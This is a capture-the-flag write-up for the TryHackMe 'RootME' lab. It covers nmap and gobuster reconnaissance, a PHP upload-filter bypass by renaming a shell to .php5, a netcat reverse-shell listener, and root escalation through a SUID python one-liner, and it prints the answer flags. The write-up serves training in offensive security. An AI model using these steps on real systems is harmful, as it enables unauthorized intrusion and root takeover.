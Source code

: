 # RootME - tryhackme
# By 0xRar

## Scanning
```
nmap -T4 -A -p- MACHINE_IP
Nmap scan report for MACHINE_IP
Host is up (0.15s latency).
Not shown: 65464 closed ports, 69 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Dir bruteforce:

`gobuster dir -u MACHINE_IP -w /usr/share/wordlists/dirb/common.txt`
===============================================================
```
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/css (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/panel (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
```

## Explotation
```
http://MACHINE_IP/panel/   has a file upload, i already know what im gonna do.

Lets listen on our port in my case its 4444
`nc -lvnp 4444`

and lets upload our shell, and as i guessed its not going to work lets try to bypass the filter

lets change it to `RarShell.php5`

BOOOOM!!!! WE GOT IT, lets access our shell `http://MACHINE_IP/uploads/` and run it

find | grep "user.txt" to get our flag


flag : THM{y0u_g0t_a_sh3ll}

```

## Privilege Escalation

`find / -user root -perm /4000`

```
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo    this one looks interesting 
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
/usr/bin/python  this one looks interesting 
```

`./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

```
whoami
root

cd /root
```

Flag : **`THM{pr1v1l3g3_3sc4l4t10n}`**
